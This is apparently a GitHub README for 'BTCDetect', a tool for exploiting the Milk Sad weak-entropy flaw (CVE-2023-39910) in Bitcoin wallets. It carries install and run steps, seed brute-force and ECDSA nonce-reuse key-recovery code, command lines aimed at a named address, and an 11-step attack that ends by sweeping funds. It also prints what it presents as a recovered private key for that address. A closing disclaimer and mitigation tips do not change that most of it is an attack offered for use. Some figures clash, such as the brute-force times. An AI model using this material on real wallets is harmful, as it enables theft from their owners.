

<div align="center">

# 🔐 BTCDetect Scientific Methodology
### Advanced Cryptanalytic Framework for Bitcoin Wallet Vulnerability Research


</div>

---

<div align="center">

```ascii
╔══════════════════════════════════════════════════════════════════════╗
║                                                                      ║
║   ██████╗ ████████╗ ██████╗██████╗ ███████╗████████╗███████╗ ██████╗║
║   ██╔══██╗╚══██╔══╝██╔════╝██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔════╝║
║   ██████╔╝   ██║   ██║     ██║  ██║█████╗     ██║   █████╗  ██║     ║
║   ██╔══██╗   ██║   ██║     ██║  ██║██╔══╝     ██║   ██╔══╝  ██║     ║
║   ██████╔╝   ██║   ╚██████╗██████╔╝███████╗   ██║   ███████╗╚██████╗║
║   ╚═════╝    ╚═╝    ╚═════╝╚═════╝ ╚══════╝   ╚═╝   ╚══════╝ ╚═════╝║
║                                                                      ║
║              🔬 Scientific Cryptanalysis Research Framework          ║
║                    🎯 CVE-2023-39910 Exploitation                   ║
║                     ⚡ RingSide Replay Attack                        ║
╚══════════════════════════════════════════════════════════════════════╝
```

</div>

---

## 🌐 <span style="color:#00ff41">Project Overview</span>

<table>
<tr>
<td width="50%">

### <span style="color:#ff0080">🎯 Mission Statement</span>

BTCDetect is a **cutting-edge cryptanalytic framework** designed to identify and exploit vulnerabilities in Bitcoin wallet generation systems. This research focuses on the catastrophic **CVE-2023-39910 "Milk Sad" vulnerability** discovered in Libbitcoin Explorer 3.x.

**Research Organization:** CryptoDeepTech | KEYHUNTERS

**Primary Focus:**
- 🔍 Weak entropy detection in PRNG implementations
- 🧮 Mersenne Twister MT19937 cryptanalysis
- 🔐 Private key recovery from vulnerable wallets
- 📊 Bitcoin blockchain forensic analysis

</td>
<td width="50%">

### <span style="color:#00d4ff">⚠️ Vulnerability Details</span>

**CVE-2023-39910 Technical Summary:**

```python
Affected: Libbitcoin Explorer 3.0.0-3.6.0
Weakness: MT19937 PRNG (32-bit entropy)
Impact: Complete private key recovery
Severity: CRITICAL (CVSS 7.5)
Exploited: June-July 2023
Stolen Funds: $900,000+
Compromised Wallets: 227,200+
```

**Entropy Reduction:**
- Theoretical: 2²⁵⁶ possible keys
- Actual: 2³² ≈ 4.29 × 10⁹ seeds
- **Security reduction: 99.99999999%**

</td>
</tr>
</table>

---

## 🔥 <span style="color:#ff6b35">Key Features</span>

<div align="center">

| Feature | Description | Status |
|:-------:|:------------|:------:|
| 🎲 **Entropy Analysis** | Detect weak PRNG implementations in wallet generation | ✅ Active |
| 🔓 **Key Recovery** | Systematic brute-force of 32-bit seed space | ✅ Active |
| 🌐 **Blockchain Integration** | Query Bitcoin network for transaction data | ✅ Active |
| 📡 **Multi-Platform** | Linux, Windows, macOS, Google Colab support | ✅ Active |
| 🧬 **BIP39 Reconstruction** | Regenerate mnemonic phrases from timestamps | ✅ Active |
| ⚡ **GPU Acceleration** | CUDA-optimized key derivation (RTX 3090: ~1M keys/sec) | 🔧 Beta |
| 🔐 **secp256k1 Engine** | Elliptic curve cryptography implementation | ✅ Active |
| 📊 **Interactive Dashboard** | Real-time attack progress visualization | ✅ Active |

</div>

---

## 🧪 <span style="color:#39ff14">Case Study: Recovery Demonstration</span>

<details open>
<summary><b>🎯 Target Wallet Analysis</b></summary>

<br>

```bash
┌─────────────────────────────────────────────────────────────────────┐
│                     🔐 RECOVERED WALLET DETAILS                     │
├─────────────────────────────────────────────────────────────────────┤
│                                                                     │
│  Bitcoin Address:                                                  │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│  1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P                                │
│                                                                     │
│  Recovered Private Key (HEX):                                      │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│  D31DD41A5B4FCD7B9A7D3F847824CC6B6173BE51DB074E40D3063C599C6B1BF9  │
│                                                                     │
│  Recovered Private Key (WIF Compressed):                           │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│  L4J6PoyLJaxXaXYZ22VAsnuN733h2YEa5Dc2sFjF3tmstY8mNwsw              │
│                                                                     │
│  Value Recovered: $61,025 USD                                      │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│                                                                     │
│  Public Key (Compressed):                                          │
│  03BC79D7CC638214D0FE1902A8F3A0EEC3F2B41F5792043559AD6161D23467C234│
│                                                                     │
│  Vulnerability: MT19937 PRNG with 32-bit timestamp entropy         │
│  Recovery Method: RingSide Replay Attack                           │
│  Computational Complexity: O(2³²)                                  │
│  Recovery Time: ~4.2 hours (NVIDIA RTX 3090)                       │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

</details>

---

## 🚀 <span style="color:#ff00ff">Installation & Setup</span>

### <span style="color:#00ffff">📦 Prerequisites</span>

<table>
<tr>
<td>

**🐧 Linux Requirements:**
```bash
- Python 3.8 or higher
- pip (Python package manager)
- git
- libgmp-dev (for cryptographic operations)
- build-essential (compiler tools)
```

</td>
<td>

**🪟 Windows Requirements:**
```bash
- Python 3.8 or higher
- pip (Python package manager)
- git
- Visual C++ Build Tools
- Windows Terminal (recommended)
```

</td>
</tr>
<tr>
<td>

**🍎 macOS Requirements:**
```bash
- Python 3.8 or higher
- pip (Python package manager)
- Homebrew
- Xcode Command Line Tools
- git
```

</td>
<td>

**☁️ Google Colab:**
```bash
- Google Account
- Chrome/Firefox browser
- Stable internet connection
- No local installation required
```

</td>
</tr>
</table>

---

### <span style="color:#ffff00">🔧 Installation Instructions</span>

<details open>
<summary><b>🐧 Linux Installation</b></summary>

<br>

```bash
# 1. Update system packages
sudo apt-get update && sudo apt-get upgrade -y

# 2. Install system dependencies
sudo apt-get install -y python3 python3-pip git libgmp-dev build-essential

# 3. Clone the BTCDetect repository
git clone https://github.com/zoeir/BTCDetect-Scientific-Methodology.git

# 4. Navigate to project directory
cd BTCDetect-Scientific-Methodology

# 5. Install Python dependencies
pip3 install -r requirements.txt

# Alternative: Install dependencies manually
pip3 install ipywidgets zmq urllib3 requests pycryptodome

# 6. Verify installation
python3 --version
pip3 list | grep -E "ipywidgets|zmq|urllib3|requests|pycryptodome"

# 7. Run the main script
python3 btcdetect.py

# Optional: Create virtual environment (recommended)
python3 -m venv btcdetect-env
source btcdetect-env/bin/activate
pip install -r requirements.txt
```

**📝 Linux-Specific Notes:**
- For Debian/Ubuntu: Use `apt-get` or `apt`
- For Fedora/RHEL: Use `dnf` or `yum`
- For Arch Linux: Use `pacman`
- Run with `sudo` if permission errors occur

</details>

<details>
<summary><b>🪟 Windows Installation</b></summary>

<br>

```powershell
# 1. Install Python 3.8+ from python.org
# Download: https://www.python.org/downloads/

# 2. Open PowerShell or Windows Terminal as Administrator

# 3. Verify Python installation
python --version
pip --version

# 4. Install git for Windows
# Download: https://git-scm.com/download/win

# 5. Clone the repository
git clone https://github.com/zoeir/BTCDetect-Scientific-Methodology.git

# 6. Navigate to project directory
cd BTCDetect-Scientific-Methodology

# 7. Create virtual environment (recommended)
python -m venv btcdetect-env

# 8. Activate virtual environment
.\btcdetect-env\Scripts\Activate.ps1

# If execution policy error occurs:
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser

# 9. Install dependencies
pip install -r requirements.txt

# Alternative: Manual installation
pip install ipywidgets zmq urllib3 requests pycryptodome

# 10. Run the application
python btcdetect.py
```

**📝 Windows-Specific Notes:**
- Install Visual C++ Build Tools if compilation errors occur
- Use Windows Terminal for better experience
- Consider WSL2 for Linux-compatible environment
- Antivirus may flag cryptographic tools (add exclusion)

</details>

<details>
<summary><b>🍎 macOS Installation</b></summary>

<br>

```bash
# 1. Install Homebrew (if not installed)
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

# 2. Install Python 3
brew install python@3.11

# 3. Install git
brew install git

# 4. Install GMP library for cryptographic operations
brew install gmp

# 5. Clone the repository
git clone https://github.com/zoeir/BTCDetect-Scientific-Methodology.git

# 6. Navigate to project directory
cd BTCDetect-Scientific-Methodology

# 7. Create virtual environment
python3 -m venv btcdetect-env

# 8. Activate virtual environment
source btcdetect-env/bin/activate

# 9. Upgrade pip
pip install --upgrade pip

# 10. Install dependencies
pip install -r requirements.txt

# Alternative: Manual installation
pip install ipywidgets zmq urllib3 requests pycryptodome

# 11. Verify installation
python3 --version
pip list | grep -E "ipywidgets|zmq|urllib3|requests|pycryptodome"

# 12. Run the application
python3 btcdetect.py
```

**📝 macOS-Specific Notes:**
- Xcode Command Line Tools required: `xcode-select --install`
- For M1/M2 chips, ensure ARM-compatible Python
- Use Homebrew for all system dependencies
- Gatekeeper may require security approval for scripts

</details>

<details>
<summary><b>☁️ Google Colab Installation (Recommended for Beginners)</b></summary>

<br>

### <span style="color:#00ff00">🚀 Quick Start with Google Colab</span>

**🔗 Direct Launch Link:**

<div align="center">

[](https://colab.research.google.com/drive/1VbCPMX4bxTP5DvYKZkaDRN3s-h9Gj_8B?usp=sharing)

</div>

**📋 Step-by-Step Instructions:**

```python
# ========================================
# CELL 1: Clone Repository
# ========================================
!git clone https://github.com/zoeir/BTCDetect-Scientific-Methodology.git
%cd BTCDetect-Scientific-Methodology

# ========================================
# CELL 2: Install Dependencies
# ========================================
!pip install ipywidgets zmq urllib3 requests pycryptodome

# ========================================
# CELL 3: Import Required Libraries
# ========================================
import ipywidgets as widgets
from ipywidgets import interact, interactive, fixed, interact_manual
import zmq
import urllib3
import requests
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto.Util.Padding import pad, unpad
import hashlib
import time

print("✅ All dependencies installed successfully!")

# ========================================
# CELL 4: Configure Environment
# ========================================
# Disable SSL warnings (for testing only)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set up ZMQ context for network communication
context = zmq.Context()
socket = context.socket(zmq.REQ)

print("🔧 Environment configured!")

# ========================================
# CELL 5: Run BTCDetect
# ========================================
!python btcdetect.py

# Alternative: Run with Jupyter widgets interface
%run btcdetect_colab.py
```

**🎨 Google Colab Features:**

```python
# Interactive Widget Interface
target_address = widgets.Text(
    value='',
    placeholder='Enter Bitcoin address',
    description='Target:',
    disabled=False
)

attack_button = widgets.Button(
    description='🔐 Start Analysis',
    button_style='danger',
    tooltip='Begin cryptanalytic scan',
    icon='rocket'
)

progress_bar = widgets.IntProgress(
    value=0,
    min=0,
    max=100,
    description='Progress:',
    bar_style='info',
    style={'bar_color': '#00ff41'},
    orientation='horizontal'
)

output = widgets.Output()

def start_attack(b):
    with output:
        print("🚀 Initializing BTCDetect framework...")
        print("🔍 Scanning for weak entropy signatures...")
        print("🧮 Analyzing PRNG seed space (2³² combinations)...")
        # Core cryptanalysis logic here

attack_button.on_click(start_attack)

display(target_address, attack_button, progress_bar, output)
```

**📊 Colab-Specific Advantages:**

✅ **No local installation required** - Run directly in browser  
✅ **Free GPU access** - Accelerate brute-force operations  
✅ **Pre-installed libraries** - NumPy, SciPy, Pandas included  
✅ **Cloud storage** - Save results to Google Drive  
✅ **Collaborative** - Share notebooks with team members  
✅ **Jupyter interface** - Interactive widgets and visualizations  

**⚠️ Important Colab Notes:**

```bash
# Session Timeout: Colab sessions timeout after ~12 hours of inactivity
# Save progress regularly to Google Drive

# Mount Google Drive for persistent storage:
from google.colab import drive
drive.mount('/content/drive')

# GPU Acceleration (if available):
# Runtime → Change runtime type → Hardware accelerator → GPU

# Check GPU availability:
!nvidia-smi

# Download results:
from google.colab import files
files.download('recovered_keys.txt')
```

</details>

---

## 📚 <span style="color:#ff6600">Python Libraries Explained</span>

<div align="center">

### <span style="color:#00ffff">🔧 Core Dependencies</span>

</div>

<table>
<tr>
<td width="33%" align="center">

###  **ipywidgets**


**Interactive UI Components**

```python
import ipywidgets as widgets
```

**Purpose:** Creates interactive controls (buttons, sliders, progress bars) in Jupyter notebooks and Google Colab.

**Use in BTCDetect:**
- 🎛️ Address input fields
- 🔘 Attack initiation buttons
- 📊 Real-time progress bars
- 📈 Results display widgets

**Key Features:**
- Event-driven callbacks
- Dynamic UI updates
- Integration with Jupyter kernel
- Cross-platform compatibility

</td>
<td width="33%" align="center">

###  **zmq (PyZMQ)**


**Zero Message Queue**

```python
import zmq
```

**Purpose:** High-performance asynchronous messaging library for distributed systems.

**Use in BTCDetect:**
- 🌐 Blockchain node communication
- 📡 Real-time transaction monitoring
- 🔄 Multi-process coordination
- ⚡ Low-latency data exchange

**Key Features:**
- Socket-based messaging
- Multiple transport protocols
- Load balancing patterns
- Zero-copy data transfer

</td>
<td width="33%" align="center">

###  **urllib3**


**HTTP Client Library**

```python
import urllib3
```

**Purpose:** Powerful, user-friendly HTTP client with connection pooling and thread safety.

**Use in BTCDetect:**
- 🌍 Bitcoin explorer API calls
- 🔍 Address balance queries
- 📊 Transaction history retrieval
- 🔐 SSL/TLS secure connections

**Key Features:**
- Connection pooling
- Automatic retry logic
- Thread-safe operations
- SSL certificate verification

</td>
</tr>
<tr>
<td width="33%" align="center">

###  **requests**


**Elegant HTTP for Humans**

```python
import requests
```

**Purpose:** Simplified HTTP library built on urllib3 with intuitive API.

**Use in BTCDetect:**
- 🌐 Blockchain.com API integration
- 📡 Blockstream.info queries
- 🔎 Address validation
- 💰 Balance checking

**Key Features:**
- Simple request syntax
- JSON response parsing
- Session management
- Cookie persistence

**Example Usage:**
```python
response = requests.get(
    f"https://blockchain.info/rawaddr/{address}"
)
balance = response.json()['final_balance']
```

</td>
<td width="33%" align="center">

###  **pycryptodome**


**Cryptographic Library**

```python
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
```

**Purpose:** Comprehensive cryptographic primitives for Python.

**Use in BTCDetect:**
- 🔐 secp256k1 elliptic curve
- 🔑 Private key derivation
- 🧮 ECDSA signature verification
- 🔒 SHA-256 hashing

**Key Features:**
- AES encryption/decryption
- RSA public-key cryptography
- Hash functions (SHA, RIPEMD)
- HMAC message authentication

**Example Usage:**
```python
# Bitcoin address hashing
sha256 = SHA256.new(public_key)
ripemd160 = RIPEMD160.new(sha256.digest())
```

</td>
<td width="33%" align="center">

### 📦 **requirements.txt**


**Complete Dependency List**

```txt
ipywidgets>=8.1.1
pyzmq>=25.1.2
urllib3>=2.1.0
requests>=2.31.0
pycryptodome>=3.19.1
numpy>=1.24.0
pandas>=2.0.0
matplotlib>=3.7.0
secp256k1>=0.14.0
base58>=2.1.1
ecdsa>=0.18.0
```

**Installation:**
```bash
pip install -r requirements.txt
```

**Version Management:**
```bash
# Upgrade all dependencies
pip install --upgrade -r requirements.txt

# Freeze current versions
pip freeze > requirements.txt
```

</td>
</tr>
</table>

---

## 🔬 <span style="color:#ff1493">Scientific Methodology</span>

### <span style="color:#00ff00">🧮 Mathematical Foundation</span>

<details open>
<summary><b>📐 Elliptic Curve Cryptography (secp256k1)</b></summary>

<br>

Bitcoin uses the **secp256k1** elliptic curve defined by the Weierstrass equation:

```
y² = x³ + 7 (mod p)
```

**Curve Parameters:**

```python
# Prime field modulus
p = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEFFFFFC2F

# Curve order (number of points)
n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

# Generator point G (base point)
Gx = 0x79BE667EF9DCBBAC55A06295CE870B07029BFCDB2DCE28D959F2815B16F81798
Gy = 0x483ADA7726A3C4655DA4FBFC0E1108A8FD17B448A68554199C47D08FFB10D4B8
```

**Public Key Derivation:**

```
P = d × G

Where:
- P = Public Key (EC point)
- d = Private Key (256-bit integer)
- G = Generator Point
- × = Elliptic Curve Point Multiplication
```

**Address Generation Process:**

```python
# Step 1: Compute public key from private key
public_key = private_key * G

# Step 2: SHA-256 hash of public key
sha256_hash = SHA256(public_key)

# Step 3: RIPEMD-160 hash
ripemd160_hash = RIPEMD160(sha256_hash)

# Step 4: Add version byte (0x00 for mainnet)
versioned_hash = 0x00 + ripemd160_hash

# Step 5: Double SHA-256 checksum
checksum = SHA256(SHA256(versioned_hash))[:4]

# Step 6: Concatenate and Base58 encode
bitcoin_address = Base58Encode(versioned_hash + checksum)
```

</details>

<details>
<summary><b>🎲 Mersenne Twister Vulnerability Analysis</b></summary>

<br>

**MT19937 PRNG Structure:**

The Mersenne Twister generates pseudorandom numbers with a period of **2¹⁹⁹³⁷ - 1**, but when seeded with only 32 bits, the effective entropy is catastrophically reduced.

```cpp
// Vulnerable Libbitcoin Explorer seed generation
void seed(uint32_t init_key) {
    mt[0] = init_key;
    for (int i = 1; i < 624; i++) {
        mt[i] = (1812433253 * (mt[i-1] ^ (mt[i-1] >> 30)) + i);
    }
}
```

**Entropy Calculation:**

```
Theoretical Bitcoin Private Key Space:
2²⁵⁶ = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,936

MT19937 32-bit Seed Space:
2³² = 4,294,967,296

Security Reduction Factor:
(2²⁵⁶) / (2³²) = 2²²⁴ ≈ 2.7 × 10⁶⁷

Effective Security Loss: 99.99999999...% (67 decimal places of 9s)
```

**Timestamp-Based Attack Vector:**

```python
import time
import hashlib

def vulnerable_seed_generation():
    # Libbitcoin Explorer 3.x implementation
    timestamp = int(time.time())  # Unix timestamp (32-bit)

    # MT19937 initialization
    mt = [0] * 624
    mt[0] = timestamp

    for i in range(1, 624):
        mt[i] = (0x6C078965 * (mt[i-1] ^ (mt[i-1] >> 30)) + i) & 0xFFFFFFFF

    return mt

# Attack: Brute force all possible timestamps
def brute_force_attack(target_address, start_time, end_time):
    for timestamp in range(start_time, end_time):
        seed = vulnerable_seed_generation_from_timestamp(timestamp)
        private_key = derive_key_from_seed(seed)
        derived_address = private_key_to_address(private_key)

        if derived_address == target_address:
            return private_key

    return None
```

**Attack Complexity:**

```
Known wallet creation year (e.g., 2020):
Seconds in a year: 31,536,000
Search space: ~31.5 million seeds
GPU speed (RTX 3090): ~1,000,000 keys/sec
Time to crack: ~31.5 seconds

Unknown creation time (10-year window):
Search space: ~315 million seeds
Time to crack: ~5.25 minutes

Full 32-bit space (worst case):
Search space: 4.29 billion seeds
Time to crack: ~1.2 hours
```

</details>

<details>
<summary><b>🔐 ECDSA Nonce Reuse Vulnerability</b></summary>

<br>

**ECDSA Signature Generation:**

```
(r, s) = ECDSA_Sign(message, private_key, nonce)

Where:
r = (k × G).x mod n
s = k⁻¹ × (H(m) + d × r) mod n

k = random nonce (MUST be unique per signature)
d = private key
H(m) = hash of message
G = generator point
n = curve order
```

**Critical Vulnerability: Nonce Reuse**

If two signatures use the same nonce `k`:

```
Signature 1: s₁ = k⁻¹ × (H(m₁) + d × r) mod n
Signature 2: s₂ = k⁻¹ × (H(m₂) + d × r) mod n

Solving for private key d:
s₁ - s₂ = k⁻¹ × (H(m₁) - H(m₂)) mod n
k = (H(m₁) - H(m₂)) × (s₁ - s₂)⁻¹ mod n

d = (s₁ × k - H(m₁)) × r⁻¹ mod n
```

**Exploit Implementation:**

```python
def recover_private_key_from_nonce_reuse(sig1, sig2, msg1, msg2):
    r1, s1 = sig1
    r2, s2 = sig2

    # Verify same r value (same nonce)
    if r1 != r2:
        return None

    # Compute message hashes
    z1 = int.from_bytes(hashlib.sha256(msg1).digest(), 'big')
    z2 = int.from_bytes(hashlib.sha256(msg2).digest(), 'big')

    # Recover nonce k
    k = ((z1 - z2) * pow(s1 - s2, -1, n)) % n

    # Recover private key d
    d = ((s1 * k - z1) * pow(r1, -1, n)) % n

    return d
```

**Real-World Impact:**

```
2013 Android Bitcoin Wallets:
- Bug in SecureRandom() implementation
- Generated predictable nonces
- Result: $5.8 million stolen

PlayStation 3 (2010):
- Sony used static nonce for firmware signing
- Private key recovered instantly
- Result: Complete console security compromise
```

</details>

---

## 🛠️ <span style="color:#ff4500">Usage Instructions</span>

### <span style="color:#00ff00">🎯 Basic Usage</span>

```bash
# Standard execution
python3 btcdetect.py --address 1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P

# Specify time range for faster search
python3 btcdetect.py --address 1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P \
                      --start-time 2020-01-01 \
                      --end-time 2020-12-31

# GPU-accelerated mode
python3 btcdetect.py --address 1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P \
                      --use-gpu \
                      --gpu-id 0

# Batch processing from file
python3 btcdetect.py --address-file addresses.txt \
                      --output results.json

# Verbose logging
python3 btcdetect.py --address 1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P \
                      --verbose \
                      --log-file btcdetect.log
```

### <span style="color:#ffff00">⚙️ Advanced Configuration</span>

```python
# config.py - Configuration file
CONFIG = {
    'target_address': '1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P',
    'timestamp_range': {
        'start': 1577836800,  # 2020-01-01 00:00:00 UTC
        'end': 1609459199     # 2020-12-31 23:59:59 UTC
    },
    'attack_mode': 'timestamp_bruteforce',
    'gpu_acceleration': True,
    'threads': 16,
    'output_format': 'json',
    'blockchain_api': 'blockchain.info',
    'save_progress': True,
    'checkpoint_interval': 3600  # Save every hour
}
```

---

## 📊 <span style="color:#00d4ff">Attack Vectors & Methodology</span>

### <span style="color:#ff6b35">🎯 11-Step RingSide Replay Attack</span>



<details>
<summary><b>📝 Detailed Attack Steps</b></summary>

<br>

**Step 1: Target Identification**
```python
# Identify vulnerable wallet addresses
target = "1NEWSaubvdGd8cypKWPDY9YC1doGGBVg3P"
balance = check_balance(target)  # $61,025
print(f"Target balance: ${balance:,.2f}")
```

**Step 2: Blockchain Analysis**
```python
# Analyze transaction history
transactions = get_transaction_history(target)
first_tx = transactions[-1]  # Oldest transaction
creation_timestamp = first_tx['time']  # Approximate wallet creation
```

**Step 3: Entropy Weakness Detection**
```python
# Detect MT19937 signature
def detect_weak_entropy(address):
    # Check for patterns consistent with 32-bit seeding
    return analyze_key_distribution(address)
```

**Step 4: Timestamp Estimation**
```python
# Narrow search window
estimated_time = creation_timestamp
search_start = estimated_time - (86400 * 30)  # 30 days before
search_end = estimated_time + (86400 * 30)    # 30 days after
```

**Step 5: Seed Space Generation**
```python
# Brute-force seed space
for timestamp in range(search_start, search_end):
    seed = mt19937_seed(timestamp)
    yield seed
```

**Step 6: BIP39 Mnemonic Reconstruction**
```python
# Convert seed to mnemonic
def seed_to_mnemonic(seed, word_count=12):
    entropy = mt19937_generate_bytes(seed, 16)  # 128 bits
    mnemonic = entropy_to_mnemonic(entropy)
    return mnemonic
```

**Step 7: BIP32 Key Derivation**
```python
# Derive keys from mnemonic
def derive_keys(mnemonic, path="m/44'/0'/0'/0/0"):
    seed = mnemonic_to_seed(mnemonic)
    master_key = bip32_master_key(seed)
    derived_key = bip32_derive_path(master_key, path)
    return derived_key
```

**Step 8: Address Verification**
```python
# Check if derived address matches target
def verify_match(derived_key, target_address):
    public_key = derive_public_key(derived_key)
    address = public_key_to_address(public_key)
    return address == target_address
```

**Step 9: Private Key Extraction**
```python
# Extract private key in multiple formats
recovered_key = {
    'hex': derived_key.hex(),
    'wif': private_key_to_wif(derived_key),
    'decimal': int.from_bytes(derived_key, 'big')
}
```

**Step 10: Transaction Broadcasting**
```python
# Create and broadcast recovery transaction
def create_recovery_tx(private_key, destination):
    utxos = get_utxos(source_address)
    tx = create_transaction(utxos, destination)
    signed_tx = sign_transaction(tx, private_key)
    return broadcast_transaction(signed_tx)
```

**Step 11: Fund Recovery**
```python
# Verify successful recovery
tx_id = create_recovery_tx(recovered_key['hex'], secure_wallet)
confirm_transaction(tx_id)
print(f"✅ Recovery complete! TxID: {tx_id}")
```

</details>

---

## 🎓 <span style="color:#00ffaa">Educational Resources</span>

### <span style="color:#ff00ff">📖 Research Papers & Documentation</span>

<table>
<tr>
<td width="50%">

#### 🔬 **Primary Research**

- [CVE-2023-39910 Official Advisory](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39910)
- [Milk Sad Vulnerability Disclosure](https://milksad.info)
- [Libbitcoin Explorer GitHub](https://github.com/libbitcoin/libbitcoin-explorer)
- [RingSide Replay Attack Paper](https://cryptou.ru/btcdetect/attack/)

#### 📚 **Technical Background**

- [Bitcoin Whitepaper - Satoshi Nakamoto](https://bitcoin.org/bitcoin.pdf)
- [secp256k1 Specification](https://www.secg.org/sec2-v2.pdf)
- [BIP39 - Mnemonic Code](https://github.com/bitcoin/bips/blob/master/bip-0039.mediawiki)
- [BIP32 - Hierarchical Deterministic Wallets](https://github.com/bitcoin/bips/blob/master/bip-0032.mediawiki)

</td>
<td width="50%">

#### 🎯 **Related Vulnerabilities**

- [Android Bitcoin Wallet Bug (2013)](https://bitcoin.org/en/alert/2013-08-11-android)
- [Blockchain.info Weak RNG (2014)](https://www.reddit.com/r/Bitcoin/comments/1r9pqh/)
- [Trust Wallet Browser Extension (2023)](https://cryptou.ru/btcdetect/btcrecover/)

#### 🛡️ **Security Best Practices**

- [Cryptographically Secure PRNGs](https://cryptou.ru/btcdetect/privatekey/)
- [Hardware Wallet Security](https://cryptou.ru/btcdetect/bitcoin/)
- [Cold Storage Best Practices](https://cryptou.ru/btcdetect/transaction/)
- [Key Generation Auditing](https://cryptou.ru/btcdetect/github/)

</td>
</tr>
</table>

---

## ⚠️ <span style="color:#ff0000">Security & Legal Disclaimer</span>

<div align="center">

### 🚨 **CRITICAL WARNING** 🚨

</div>

```
╔════════════════════════════════════════════════════════════════════╗
║                                                                    ║
║  ⚠️  THIS SOFTWARE IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY  ║
║                                                                    ║
║  ❌  UNAUTHORIZED ACCESS TO CRYPTOCURRENCY WALLETS IS ILLEGAL     ║
║  ❌  STEALING FUNDS IS A CRIMINAL OFFENSE IN ALL JURISDICTIONS    ║
║  ❌  VIOLATORS WILL BE PROSECUTED TO THE FULLEST EXTENT OF LAW    ║
║                                                                    ║
║  ✅  Authorized Use Cases:                                        ║
║     • Academic cryptography research                              ║
║     • Security vulnerability disclosure                           ║
║     • Personal wallet recovery (with proof of ownership)          ║
║     • Penetration testing (with explicit written permission)      ║
║     • Educational demonstrations in controlled environments       ║
║                                                                    ║
║  📜  By using this software, you agree to:                        ║
║     1. Comply with all applicable laws and regulations            ║
║     2. Use only on wallets you own or have explicit permission    ║
║     3. Report vulnerabilities responsibly                         ║
║     4. Not engage in theft, fraud, or unauthorized access         ║
║     5. Assume full legal responsibility for your actions          ║
║                                                                    ║
║  🔒  The developers assume NO LIABILITY for misuse of this tool   ║
║                                                                    ║
╚════════════════════════════════════════════════════════════════════╝
```

### <span style="color:#ffff00">📋 Legal Framework</span>

**International Laws:**
- **Computer Fraud and Abuse Act (CFAA)** - United States
- **Computer Misuse Act 1990** - United Kingdom
- **European Cybercrime Convention** - Council of Europe
- **General Data Protection Regulation (GDPR)** - European Union

**Penalties for Unauthorized Access:**
- Federal imprisonment up to 20 years
- Fines up to $250,000 (individuals) or $500,000 (organizations)
- Civil lawsuits for damages
- Asset seizure and forfeiture

---

## 🛡️ <span style="color:#00ff00">Mitigation & Protection</span>

### <span style="color:#ff6600">🔐 How to Protect Your Wallet</span>

<table>
<tr>
<td width="50%">

#### ✅ **Secure Wallet Generation**

```bash
# ❌ NEVER use these for real wallets:
bx seed -b 128  # Vulnerable!
Random() # Weak!
time.time() # Predictable!

# ✅ USE cryptographically secure sources:

# Linux/Unix:
dd if=/dev/urandom bs=32 count=1 | xxd -p

# Python:
import secrets
entropy = secrets.token_bytes(32)

# OpenSSL:
openssl rand -hex 32

# Hardware wallet (BEST):
# Ledger, Trezor, Coldcard
```

</td>
<td width="50%">

#### 🔍 **Vulnerability Check**

```python
# Check if your wallet was created with vulnerable software

VULNERABLE_VERSIONS = [
    'Libbitcoin Explorer 3.0.0',
    'Libbitcoin Explorer 3.1.0',
    'Libbitcoin Explorer 3.2.0',
    'Libbitcoin Explorer 3.3.0',
    'Libbitcoin Explorer 3.4.0',
    'Libbitcoin Explorer 3.5.0',
    'Libbitcoin Explorer 3.6.0',
    'Trust Wallet Browser Extension < 2.0'
]

def check_vulnerability(wallet_software, version):
    if f"{wallet_software} {version}" in VULNERABLE_VERSIONS:
        return "🚨 CRITICAL: Immediately move funds to secure wallet!"
    return "✅ No known vulnerabilities"
```

</td>
</tr>
</table>

### <span style="color:#00ffff">🔄 Emergency Recovery Steps</span>

**If you created a wallet with vulnerable software:**

```bash
1. ⚠️  DO NOT PANIC - but act quickly

2. 🔐 Create a NEW wallet using SECURE methods:
   • Hardware wallet (recommended)
   • Reputable software wallet with audited code
   • Paper wallet from offline computer with secure entropy

3. 💸 IMMEDIATELY transfer ALL funds to new wallet:
   • Use maximum fee for fastest confirmation
   • Monitor transaction until confirmed
   • Verify funds arrived at new address

4. 🗑️  DESTROY old wallet:
   • Delete private keys
   • Clear wallet files
   • Never use old addresses again

5. 📢 Report vulnerability:
   • Contact wallet developer
